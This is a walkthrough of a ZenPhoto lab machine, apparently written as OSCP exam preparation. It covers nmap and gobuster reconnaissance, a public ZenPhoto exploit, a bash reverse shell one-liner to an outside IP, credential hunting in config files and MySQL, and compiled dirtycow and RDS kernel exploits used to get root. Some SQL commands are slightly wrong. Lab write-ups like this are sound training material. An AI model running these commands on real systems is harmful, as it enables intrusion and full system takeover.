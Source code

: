 ```yaml
---
title: ZenPhoto
date: 2025-04-14
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough]     # TAG names should always be lowercase
image: zenphoto-logo.png
media_subpath: /assets/img/posts/2025-04-14-zenphoto/
---
```

## Introduction

In this walkthrough we will be solving Proving Grounds Intermediate Linux box ZenPhoto. Let’s start ..

## Nmap

### TCP Scan
Run a quick nmap scan to see open ports on our target:

```bash
sudo nmap -sV $IP --open
```
![TCP Scan](image1.png)
_TCP Scan_

### UDP Scan
Run UDP Scan to top 100 ports to not to miss any valuable service.

```bash
sudo nmap -sU -F $IP
```
![UDP Scan](image2.png)
_UDP Scan_
No valuable UDP ports are identified.

### Full Nmap Scan
Run a full Nmap scan while you are interacting with previously identified services.
```bash
sudo nmap -sV -sC -p- $IP -Pn -n --open 
```
## Services
### Port 22
We usually skip OpenSSH.
### Port 23
Searching for public exploits `searchsploit CUPS`
![searchsploit command](image3.png)
Nothing very interesting comes to attention.
### Port 3306
Trying to connect to MySQL service using `root` and `no password` says our host is now allowed to connect to this service.
```bash
mysql -h $IP -u root --ssl=0
```
![mysql](image4.png)
## Web
### Port 80
- Searching for public exploits `searchsploit apache 2.2.14` reveals:
  ![searchsploit](image5.png)
- Accessing the web page it shows **Under Construction** which means this is a potential point of further investigation.
- Directory Fuzzing
```bash
gobuster dir -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42
```
![gobuster](image6.png)
Reading the source code of **\test** directory we can see **zenphoto version 1.4.1.4**

## Exploitation
I am gonna search for public exploits for this version of commercial web application ZenPhoto
```bash
searchsploit zenphoto 1.4.1.4
```
![zenphoto](image7.png)
**That's it!** We found a public exploit for this version.
```bash
php 18083.php $IP /test/
```
![shell](image8.png)
```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.237/443 0>&1'
```
I got reverse shell.
![reverse shell](image9.png)

## Privilege Escalation
When I am doing privilege escalation on a Linux Box, I follow the following checklist:
- **Situational Awareness** - get as much information as possible about your user, target machine (`id`, `whoami`, `uname  -a`)
- **Exposed Confidential Information** (`env`, `.bashrc`)
- **Password Authentication Abuse** - check permissions on `/etc/passwd` and `/etc/shadow`
- **Sudo** (`sudo -l`)
- **SUID/SGID**
- **Capabilities**
- **Cron Jobs**
- **Hunting for sensitive information** in `.txt.`, `.php`, `.conf` files
- **Kernel Exploits**

Under `/var/www/test/zp-data` I found `.conf` file where credentials for database were stored, you can find them also running [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
![conf file](image10.png)
Then I tried to connect to MySQL database
```bash
mysql -h 127.0.0.1 -u root -p
```
![mysql connection](image11.png)
```sql
show databases;
select zenphoto;
```
Digging in database I found probably encrypted credentials of admin user.
![database](image12.png)

Then I switched to mysql database:
```sql
select mysql;
```
![mysql database](image13.png)
Here are kept credentials that are used to connect to database service, but nothing useful find here either.

I tried to crack it in hope it is a hash, with hashcat and [Crackstation.net](https://crackstation.net/) but that didn't work.

I tried nearly everything in my checklist except for Kernel exploits and decided to take a closer look of linpeas.sh output, as linpeas.sh simultaneously runs Linux Exploit Suggester we actually can find kernel exploits there. I found two interesting candidates:
![kernel](image14.png)
> Pay attention to they are labeled as highly-probable privilege escalation paths.
{: .prompt-warning}

Let's run them:
1. `dirtycow`
   I compiled exploit on the target machine
   ```bash
  gcc 40839.c -o exploit
   ```
   ![dirtycow](image15.png)
2. `rds`
  [exploit](https://www.exploit-db.com/exploits/15285)
  ```bash
  gcc 15285.c -o exploit
  ```
  ![rds](image16.png)
  it worked now.

**Now we are root!**

## Mitigation
- **Upgrade ZenPhoto**: The oldest secure version is 1.5.8 (latest is recommended).
- **Update Linux**
